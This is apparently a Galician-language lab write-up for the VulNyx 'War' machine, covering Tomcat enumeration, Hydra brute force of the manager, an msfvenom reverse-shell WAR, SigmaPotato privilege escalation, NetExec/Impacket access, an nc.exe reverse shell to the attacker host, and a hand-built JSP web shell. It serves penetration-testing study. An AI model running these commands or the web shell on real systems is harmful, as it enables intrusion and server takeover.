

War
A máquina War é moi interesante porque...
- Sistema operativo Windows 10
- Apache Tomcat 11.0.1 exposto no porto 8080
- Enumeración con Dirb e wordlist específico de Tomcat
- Descubrimento de credenciais en host-manager
- Ataque de forza bruta con Hydra sobre /manager/html
- Upload de ficheiro WAR malicioso con msfvenom
- Obtención de shell como NT AUTHORITY\LOCAL SERVICE
- Escalada de privilexios mediante SeImpersonatePrivilege con SigmaPotato
- Acceso remoto con NetExec SMB (sen WinRM dispoñible)
- Alternativas: psexec.py e smbexec.py de Impacket
Diagrama de ataque

Fase 1 — Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_War -R # TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_War
Resultado do escaneo de portos:
Porto identificado:
- Porto 8080: Servidor de aplicacións (Tomcat)
Fase 2 — Análise
Escaneo de servizos e versións
# Escaneo detallado do porto aberto
sudo nmap -p8080 -sCV IP_VulNyx_War -oN targeted -oX targeted.xml
Información importante:
- Apache Tomcat 11.0.1 como servidor de aplicacións
Enumeración web
# Identificar tecnoloxías web
whatweb IP_VulNyx_War:8080
# Obter cabeceiras HTTP
curl -I IP_VulNyx_War:8080
# Acceder no navegador
firefox http://IP_VulNyx_War:8080
Resultado:
- Servidor: Apache Tomcat 11.0.1
- Páxina por defecto de Tomcat visible
Enumeración con wordlist específico de Tomcat
# Descargar wordlist de Tomcat desde SecLists
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/Web-Servers/Apache-Tomcat.txt
# Enumerar directorios con Dirb
dirb http://IP_VulNyx_War:8080 Apache-Tomcat.txt
Resultado importante de Dirb:
+ http://IP_VulNyx_War:8080/host-manager (CODE:200)
+ http://IP_VulNyx_War:8080/manager (CODE:401)
+ http://IP_VulNyx_War:8080/RELEASE-NOTES.txt (CODE:200)
Descubrimentos críticos:
/host-manager: Accesible sen autenticación/manager: Require autenticación (CODE 401)/RELEASE-NOTES.txt: Confirma versión Tomcat 11.0.1
Descubrimento de credenciais en host-manager
No código fonte da páxina atópanse credenciais de exemplo:
Credenciais encontradas:
- Usuario:
tomcat - Contrasinal:
s3cret
Probamos estas credenciais en /manager:
Resultado: Non funciona con tomcat:s3cret
Información sobre Apache Tomcat
Que é Apache Tomcat?
Apache Tomcat é un servidor de aplicacións Java e contenedor de servlets.
Características:
- Executa aplicacións Java Web (JSP, Servlets)
- Manager Application para administración
- Deploy de ficheiros WAR (Web Application Archive)
- Autenticación mediante tomcat-users.xml
Vulnerabilidades comúns
Credenciais por defecto:
Tomcat ten moitas combinacións de usuario/contrasinal por defecto:
admin:admintomcat:tomcatadmin:tomcattomcat:s3cretmanager:manager
Manager Application:
- Permite deploy de ficheiros WAR
- Un WAR malicioso pode conter unha webshell ou reverse shell
- Acceso en:
http://HOST:8080/manager/html
Fase 3 — Explotación
Ataque de forza bruta con Hydra
Usando un diccionario específico de Tomcat de SecLists:
# Descargar diccionario de credenciais Tomcat
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
# Ver sintaxe de hydra para http-get
hydra -U http-get
Configuración de Hydra para Tomcat Manager:
# Ataque de forza bruta (-t 1 para evitar bloqueos)
hydra -FIV -C tomcat-betterdefaultpasslist.txt \
-t 1 \
"http-get://IP_VulNyx_War:8080/manager/html"
Parámetros importantes:
-F: Parar ao atopar credenciais válidas-I: Non continuar sesións previas-V: Modo verbose-C: Usar ficheiro con formato usuario:contrasinal-t 1: Unha soa tarefa (CRÍTICO para evitar bloqueos)
Nota crítica sobre -t 1:
Tomcat implementa protección contra forza bruta bloqueando conexións múltiples. Usar -t 1 é imprescindible.
Saída esperada:
Credenciais válidas atopadas:
- Usuario:
[usuario] - Contrasinal:
[contrasinal]
Acceso ao Tomcat Manager
Introducir credenciais:
- Usuario:
[usuario] - Contrasinal:
[contrasinal]
Acceso exitoso ao Tomcat Manager Application
Creación de ficheiro WAR malicioso
# Xerar reverse shell WAR con msfvenom
msfvenom -p java/jsp_shell_reverse_tcp \
LHOST=IP_Atacante \
LPORT=443 \
-f war \
-o shell.war
Saída de msfvenom:
Deploy do ficheiro WAR e obtención de shell
1. Preparar listener:
2. Deploy do ficheiro WAR en Tomcat Manager:
- Ir a sección "WAR file to deploy"
- Seleccionar
shell.war - Facer clic en "Deploy"
3. Executar a aplicación despregada:
Ou acceder no navegador:
4. Verificar conexión no listener:
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [IP_atacante] from (UNKNOWN) [IP_VulNyx_War] 49674
Microsoft Windows [Version 10.0.19045.2965]
(c) Microsoft Corporation. All rights reserved.
C:\Program Files\Apache Software Foundation\Tomcat 11.0>
Shell obtida como NT AUTHORITY\LOCAL SERVICE
Verificar privilexios
C:\Program Files\Apache Software Foundation\Tomcat 11.0> whoami
nt authority\local service
C:\Program Files\Apache Software Foundation\Tomcat 11.0> whoami /priv
Saída de privilexios:
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeSystemtimePrivilege Change the system time Disabled
SeShutdownPrivilege Shut down the system Disabled
SeAuditPrivilege Generate security audits Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
Privilexio crítico identificado:
- SeImpersonatePrivilege: Enabled
Enumeración de usuarios
Saída:
Directory of C:\Users
12/06/2024 01:11 PM <DIR> .
12/06/2024 01:11 PM <DIR> ..
12/06/2024 01:21 PM <DIR> Administrator
12/06/2024 04:00 AM <DIR> [usuario2]
12/06/2024 03:58 AM <DIR> Public
Usuarios identificados:
Administrator[usuario2]
Fase 4 — Post‑explotación (Escalada de Privilexios)
Preparación de SigmaPotato
# Descargar SigmaPotato desde GitHub (revisar no cartafol releases a existencia do executable)
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
# Iniciar servidor SMB con impacket
impacket-smbserver compartir -smb2support /home/kali/Downloads
Copiar SigmaPotato á máquina víctima
C:\Program Files\Apache Software Foundation\Tomcat 11.0> cd c:\Windows\Temp
c:\Windows\Temp>
c:\Windows\Temp> copy \\IP_Atacante\compartir\SigmaPotato.exe
Executar SigmaPotato para cambiar contrasinal de Administrator
Saída esperada:
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 796 | Token: 0x776 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 964
[+] Current Command Length: 30 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 2712
[+] Process Output:
The command completed successfully.
Contrasinal de Administrator cambiada a abc123.
Acceso Remoto como Administrator
Problema: WinRM non está dispoñible (portos 5985/5986 pechados)
Opción A: Acceso con NetExec SMB
NetExec (anteriormente CrackMapExec) permite execución remota de comandos mediante SMB.
# Verificar credenciais e executar comandos
netexec smb IP_VulNyx_War -u administrator -p 'abc123.' -x whoami
Saída:
SMB IP_VulNyx_War 445 WAR [*] Windows 10 / Server 2019 Build 19041 x64 (name:WAR) (domain:WAR) (signing:False) (SMBv1:False)
SMB IP_VulNyx_War 445 WAR [+] WAR\administrator:abc123. (Pwn3d!)
SMB IP_VulNyx_War 445 WAR [+] Executed command via wmiexec
SMB IP_VulNyx_War 445 WAR war\administrator
Obtención de flags con NetExec
# Flag de root
netexec smb IP_VulNyx_War -u administrator -p 'abc123.' \
-x 'type c:\users\administrator\desktop\root.txt'
Saída:
# Flag de usuario
netexec smb IP_VulNyx_War -u administrator -p 'abc123.' \
-x 'type c:\users\[usuario2]\desktop\user.txt'
Saída:
Ambas flags conseguidas mediante NetExec SMB
Opción B: Reverse shell de Administrator con nc.exe
1. Copiar nc.exe ao servidor:
# Localizar nc.exe
find / -type f -iname "nc.exe" 2>/dev/null
# Copiar a Downloads (xa debe estar en servidor SMB)
cp /usr/share/windows-resources/binaries/nc.exe /home/kali/Downloads/
# Copiar mediante NetExec
netexec smb IP_VulNyx_War -u administrator -p 'abc123.' \
-x 'copy \\IP_Atacante\compartir\nc.exe c:\windows\temp\'
Saída:
SMB IP_VulNyx_War 445 WAR [+] Executed command via wmiexec
SMB IP_VulNyx_War 445 WAR 1 file(s) copied.
2. Preparar listener:
3. Executar nc.exe remotamente:
netexec smb IP_VulNyx_War -u administrator -p 'abc123.' \
-x 'c:\windows\temp\nc.exe -e cmd IP_Atacante 4443'
4. Verificar conexión:
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4443
listening on [any] 4443 ...
connect to [IP_atacante] from (UNKNOWN) [IP_VulNyx_War] 49688
Microsoft Windows [Version 10.0.19045.2965]
(c) Microsoft Corporation. All rights reserved.
C:\>whoami
whoami
war\administrator
C:\>
Shell de Administrator conseguida mediante nc.exe
Opción C: psexec.py de Impacket
# Acceder con psexec.py
python3 /usr/share/doc/python3-impacket/examples/psexec.py \
WAR/administrator:abc123.@IP_VulNyx_War
Saída:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Requesting shares on IP_VulNyx_War.....
[*] Found writable share ADMIN$
[*] Uploading file SVFXVpDX.exe
[*] Opening SVCManager on IP_VulNyx_War.....
[*] Creating service JSlF on IP_VulNyx_War.....
[*] Starting service JSlF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2965]
(c) Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
nt authority\system
Shell como NT AUTHORITY\SYSTEM mediante psexec.py
Opción D: smbexec.py de Impacket
# Acceder con smbexec.py
python3 /usr/share/doc/python3-impacket/examples/smbexec.py \
WAR/administrator:abc123.@IP_VulNyx_War
Saída:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
Shell como NT AUTHORITY\SYSTEM mediante smbexec.py
Correspondencia de fases → MITRE ATT&CK — VulNyx: War
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos | Scanning / descubrimento de servizos | T1595 — Active Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure (reconnaissance) |
| Detección de sistema operativo Windows 10 | OS fingerprinting | T1592.004 — Gather Victim Host Information: Client Configurations | CWE-200 — Information Exposure | |
| 2. Análise | Enumeración web con Dirb e wordlist Tomcat | Web content discovery | T1595.002 — Active Scanning: Vulnerability Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure |
| Descubrimento de credenciais en host-manager | Information disclosure | T1592 — Gather Victim Host Information T1589 — Gather Victim Identity Information |
CWE-200 — Information Exposure | |
| 3. Explotación | Forza bruta con Hydra sobre /manager/html | Brute force attack | T1110 — Brute Force T1110.001 — Brute Force: Password Guessing |
CWE-521 — Weak Password Requirements |
| Creación de WAR malicioso con msfvenom | Malicious file preparation | T1027 — Obfuscated Files or Information T1059 — Command and Scripting Interpreter |
CWE-434 — Unrestricted Upload of File with Dangerous Type | |
| Deploy de ficheiro WAR en Tomcat | Application deployment exploitation | T1505.003 — Server Software Component: Web Shell T1190 — Exploit Public-Facing Application |
CWE-434 — Unrestricted Upload of File with Dangerous Type | |
| Execución de reverse shell | Web shell execution | T1059.003 — Command and Scripting Interpreter: Windows Command Shell T1071.001 — Application Layer Protocol: Web Protocols |
CWE-94 — Improper Control of Generation of Code | |
| 4. Escalada | Identificación de SeImpersonatePrivilege | Privilege enumeration | T1082 — System Information Discovery T1033 — System Owner/User Discovery |
CWE-269 — Improper Privilege Management |
| Transfer de SigmaPotato mediante SMB | Tool transfer via SMB | T1021.002 — Remote Services: SMB/Windows Admin Shares T1570 — Lateral Tool Transfer |
N/A | |
| Execución de SigmaPotato para impersonation | Token impersonation | T1134 — Access Token Manipulation T1134.001 — Access Token Manipulation: Token Impersonation/Theft |
CWE-269 — Improper Privilege Management | |
| Cambio de contrasinal de Administrator | Account manipulation | T1098 — Account Manipulation T1078.002 — Valid Accounts: Domain Accounts |
CWE-620 — Unverified Password Change | |
| 5. Acceso remoto | Execución remota con NetExec SMB | Remote code execution via SMB | T1021.002 — Remote Services: SMB/Windows Admin Shares T1047 — Windows Management Instrumentation |
N/A |
| Obtención de reverse shell con nc.exe | Remote access tool | T1105 — Ingress Tool Transfer T1059.003 — Command and Scripting Interpreter: Windows Command Shell |
N/A | |
| Uso de psexec.py ou smbexec.py | Remote service exploitation | T1021.002 — Remote Services: SMB/Windows Admin Shares T1569.002 — System Services: Service Execution |
N/A | |
| Navegación polo sistema de ficheiros e lectura de flags | File and directory discovery | T1083 — File and Directory Discovery T1005 — Data from Local System |
N/A |
Recursos Adicionais
Referencias sobre Apache Tomcat
- Apache Tomcat Official Site
- Tomcat Manager App Documentation
- SecLists - Tomcat Wordlist
- Tomcat Default Credentials
Comparativa: Métodos de acceso remoto sen WinRM
NetExec vs psexec.py vs smbexec.py vs nc.exe
| Característica | NetExec SMB | psexec.py | smbexec.py | nc.exe |
|---|---|---|---|---|
| Protocolo | SMB + WMI | SMB + Service creation | SMB + File sharing | TCP directo |
| Privilexios | Usuario autenticado | NT AUTHORITY\SYSTEM | NT AUTHORITY\SYSTEM | Usuario que executa |
| Shell tipo | Non interactiva (execución comando) | Semi-interactiva | Semi-interactiva | Totalmente interactiva |
| Requirimentos | SMB (445) | SMB (445) + Admin$ | SMB (445) + ADMIN$ | Porto TCP calquera |
| Detección | Logs de WMI | Creación de servizos + logs | Acceso a shares + logs | Conexión TCP (baixa detección) |
| Uso | Execución rápida de comandos | Shell completa de administración | Shell completa de administración | Reverse shell manual |
| Vantaxes | Rápido, sinxelo | Shell como SYSTEM, estable | Shell como SYSTEM, sen servizos | Máis silencioso, flexible |
| Desvantaxes | Non interactiva | Deixa rastros (servizos) | Require ADMIN$ escribible | Require nc.exe no obxectivo |
Conclusión: Cada método ten o seu uso:
- NetExec SMB: Execución rápida de comandos únicos
- psexec.py: Shell completa e estable como SYSTEM
- smbexec.py: Alternativa a psexec sen crear servizos
- nc.exe: Máis sigiloso, totalmente interactivo
Comparativa: Ficheiros WAR vs ASPX vs JSP
WAR (Tomcat) vs ASPX (IIS) vs JSP (varios)
| Característica | WAR (Java) | ASPX (ASP.NET) | JSP (Java) |
|---|---|---|---|
| Servidor | Tomcat, JBoss, WebLogic, etc. | IIS (Windows) | Tomcat, Jetty, GlassFish, etc. |
| Linguaxe | Java | C#, VB.NET | Java |
| Formato | Arquivo comprimido (ZIP) | Ficheiro único | Ficheiro único |
| Deploy | Tomcat Manager ou directorios | Upload directo | Upload directo |
| Complexidade | Media (require WAR válido) | Baixa (ficheiro único) | Baixa (ficheiro único) |
| Detección | Logs de deploy en Tomcat | Logs de IIS | Logs do servidor |
| Persistencia | Alta (sobrevive a reinicios) | Alta | Alta |
Nota: Os ficheiros WAR son máis complexos pero máis potentes, xa que poden conter aplicacións web completas con múltiples recursos.
Información adicional sobre Hydra e Tomcat
Por que -t 1 é crítico?
Tomcat implementa protección contra forza bruta:
- LockOutRealm: Bloquea contas tras X intentos fallidos
- Throttling: Reduce velocidade de resposta con múltiples conexións
- Connection limits: Limita conexións simultáneas
Efectos de usar -t > 1:
- Bloqueo temporal da conta
- Perda de paquetes
- Falsos negativos (non detecta credenciais válidas)
- Posible caída do servizo
Solución:
Outras aplicacións que requiren -t 1:
- SSH con fail2ban activo
- FTP con rate limiting
- Aplicacións web con protección anti-brute-force
WAR maliciosos: Estrutura e creación
Estrutura dun ficheiro WAR
shell.war (arquivo ZIP)
├── WEB-INF/
│ └── web.xml (descriptor da aplicación)
├── index.jsp (páxina principal)
└── [outros recursos]
Creación manual dun WAR malicioso
Alternativa a msfvenom:
# Crear estrutura de directorios
mkdir -p warshell/WEB-INF
# Crear web.xml
cat > warshell/WEB-INF/web.xml << 'EOF'
Shell
/index.jsp
EOF
# Crear shell JSP
cat > warshell/index.jsp << 'EOF'
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
Process p = Runtime.getRuntime().exec(cmd);
BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
String line;
while ((line = br.readLine()) != null) {
out.println(line + "");
}
}
%>
EOF
# Crear ficheiro WAR
cd warshell
jar -cvf ../shell.war *
cd ..
Uso: